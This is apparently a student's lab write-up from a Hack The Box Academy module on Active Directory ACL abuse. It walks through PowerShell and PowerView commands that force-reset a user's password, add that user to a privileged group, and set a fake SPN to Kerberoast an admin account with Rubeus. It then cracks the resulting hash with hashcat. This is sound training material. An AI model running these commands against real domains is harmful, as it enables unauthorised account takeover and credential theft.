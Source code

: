 # 🦘 Abuse Tactics

Here we are going to have to&#x20;

1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericAll` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

So, first, we must authenticate as `wley` and force change the password of the user `damundsen`. We can start by opening a PowerShell console and authenticating as the `wley` user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0).

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Now we can create our password for user damundsen ->

```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password. We need to use the `-Credential` flag with the credential object we created for the `wley` user. It's best to always specify the `-Verbose` flag to get feedback on the command (We could do this from a Linux attack host using a tool such as `pth-net`, which is part of the [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit).)

```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

Now we can authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.

Let's first check if we are not part of this group already with this command ->

```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

Then add ourself ->

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

We can check if the command was successfull with the following command ->

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the `adunn` user. Now, let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

We must be authenticated as a member of the `Information Technology` group for this to be successful. Since we added `damundsen` to the `Help Desk Level 1` group, we inherited rights via nested group membership. We can now use [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) to create the fake SPN. We could use the tool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

**Creating a Fake SPN**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

If it works we could Kerberoast the user  ->

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

<SNIP>
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

We can go on the academy lesson if we wanted to do cleanup and remediation.

***

_**Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the user alreadu exists in this group and just to be sure we can ->

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can create a fake SPN and kerberaost the account ->

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can take the ticket on our local machine and try to crack it with hashcat ->

```
hashcat -m 13100 krbhash.txt /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
